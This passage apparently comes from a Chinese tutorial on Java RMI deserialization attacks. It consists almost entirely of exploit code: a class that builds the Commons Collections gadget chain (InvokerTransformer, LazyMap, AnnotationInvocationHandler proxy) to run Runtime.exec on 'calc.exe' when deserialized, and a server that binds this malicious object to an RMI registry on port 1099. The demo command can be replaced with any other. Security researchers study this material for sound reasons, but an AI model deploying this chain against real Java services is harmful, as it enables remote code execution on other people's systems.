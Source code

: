 ```
    public String name;  
 public int age;  
  
 public ServerReturnObject(String name, int age) throws RemoteException {  
        super();  
 this.name = name;  
 this.age = age;  
 }  
  
    public Object getUser() throws Exception {  
  
        Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(Runtime.class),  
 new InvokerTransformer("getMethod",  
 new Class[]{String.class, Class[].class},  
 new Object[]{"getRuntime",  
 new Class[0]}),  
 new InvokerTransformer("invoke",  
 new Class[]{Object.class, Object[].class},  
 new Object[]{null, new Object[0]}),  
 new InvokerTransformer("exec",  
 new Class[]{String.class},  
 new String[]{"calc.exe"}),  
 };  
 Transformer transformerChain = new ChainedTransformer(transformers);  
 Map innerMap = new HashMap();  
 Map outerMap = LazyMap.decorate(innerMap, transformerChain);  
  
 Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);  
 construct.setAccessible(true);  
 InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);  
 Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);  
 handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);  
  
  
 return (Object) handler;  
 }  
}
```

- 服务端将恶意对象绑定到注册中心

JAVA

```
import java.rmi.AlreadyBoundException;  
import java.rmi.RemoteException;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
  
public class EvilClassServer {  
    public static void main(String[] args) throws RemoteException, AlreadyBoundException {  
        User liming = new ServerReturnObject("liming",15);  
 Registry registry = LocateRegistry.createRegistry(1099);  
 registry.bind("user",liming);  
  
 System.out.println("registry is running...");  
  
 System.out.println("liming is bind in registry");  
 }  
}
```